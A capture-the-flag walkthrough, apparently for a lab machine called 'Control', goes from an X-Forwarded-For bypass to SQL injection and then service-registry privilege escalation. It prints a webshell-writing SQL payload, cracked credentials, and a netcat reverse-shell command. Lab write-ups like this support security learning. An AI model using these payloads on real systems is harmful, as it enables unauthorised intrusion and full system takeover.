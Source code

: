 # Control

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

### X-Forwaded-For Bypass

Using `gobuster` we can find the directories:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

When trying to access the `admin.php` page, we get this error:

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Perhaps we can spoof the `X-Forwarded-For` header using an IP address. When checking the page sources of multiple pages, we can find this:

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

Appending the `X-Forwarded-For: 192.168.4.28` header, we can access the `admin.php` page.

### SQL Injection for Webshell

Within the `admin.php` page, we can find that there is an application that is able to search for products.

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

We can attempt SQL Injection easily and confirm there is an unsanitsed input being passed.

<figure><img src="../../../.gitbook/assets/image (1) (9).png" alt=""><figcaption></figcaption></figure>

With this, I attempted UNION Injection to find out how many columns there were. In total, there were 6.

We can write a webshell into the normal working webroot directory:

```sql
\' UNION SELECT '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 INTO OUTFILE 'C:\inetpub\wwwroot\shell.php'#
```

Then, we can check for RCE:

<figure><img src="../../../.gitbook/assets/image (39) (4).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MariaDB Credentials

Within the machine, we can find the other users that were present:

<figure><img src="../../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

So we are looking for credentials for Hector. Understanding that there was a MariaDB instance running on the machine, I checked the files that were related to that first.&#x20;

Within the `C:\MariaDB\mysql` folder, we can find hashes for a user:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

Alternatively, we could use the SQL Injection vulnerability to dump these credentials out. Anyways, we would find a hash for the Hector user. His hash can be cracked on CrackStation to give `l33th4x0rhector`.

Enumerating the privileges that Hector has, we also see that he's part of the Remote Management Group:

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

This means that we can remotely access Hector's account over WinRM. Since there was no WinRM port available for me to use `evil-winrm`, I opted for Remote Powershelling.

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CONTROL\Hector",$pass)
Invoke-Command -Computing localhost -ScriptBlock { whoami } -Credential $cred
```

We can use this to execute `nc.exe` to give us another reverse shell as Hector.

<figure><img src="../../../.gitbook/assets/image (3) (7).png" alt=""><figcaption></figcaption></figure>

### Powershell History

This part was a tad tricky. I ran a WinPEAS and it picked up on the Powershell history for Hector.

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

When running these commands, I get a load of text that I don't really understand:

<figure><img src="../../../.gitbook/assets/image (19) (4).png" alt=""><figcaption></figcaption></figure>

Perhaps this was a clue to look into the ACLs and permissions Hector has.

### Service Registry Permissions

Picking up on the rest of WinPEAS output, we see that Hector has FullControl permissions over loads of services.

<figure><img src="../../../.gitbook/assets/image (26) (5).png" alt=""><figcaption></figcaption></figure>

FullControl permissions can be abused for forms of DLL Hijacking, or changing certain properties to execute scripts or files of our choosing.&#x20;

To exploit this, we need to find a service that satisfies 3 conditions:

* Is not started by default, and we need to manually start it
* Have FullControl permissions over it to alter its properties to execute scripts
* Run by `LocalSystem` to ensure that we run our scripts as the SYSTEM user.

I began enumeration for services that I could restart. I found a resource here that told us what specific permissions we needed:

{% embed url="http://woshub.com/set-permissions-on-windows-service/" %}

```
CC — SERVICE_QUERY_CONFIG (request service settings)
LC — SERVICE_QUERY_STATUS (service status polling)
SW — SERVICE_ENUMERATE_DEPENDENTS
LO — SERVICE_INTERROGATE
CR — SERVICE_USER_DEFINED_CONTROL
RC — READ_CONTROL
RP — SERVICE_START
WP — SERVICE_STOP
DT — SERVICE_PAUSE_CONTINUE
```

In this case, we need the `RP` permission to restart a service. To check whether a service is run by `LocalSystem`, we would have to refer to the `SERVICE_START_NAME` variable when using `sc.exe` to query the service. Lastly, we can refer to this table for the values of the `START_TYPE` variable to find a service that is started manually (3 is the value we are looking for):

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

When looking through the services that Hector had FullControl permissions over (via WinPEAS output), we find this one:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

This service certainly fits the conditions needed. We can use `sc.exe config` to modify the `binpath` variable to give us a reverse shell. However, the `sc.exe` method lept failing.

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

I tried the Powershell `Set-ItemProperty` method, and it worked better:

```powershell
Set-ItemProperty -path HKLM:\System\CurrentControlSet\services\wuauserv -name ImagePath -value "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 6666"
```

Afterwards, we can start the service and get a shell as the administrator. (I don't have screenshots of the administrator shell D:)
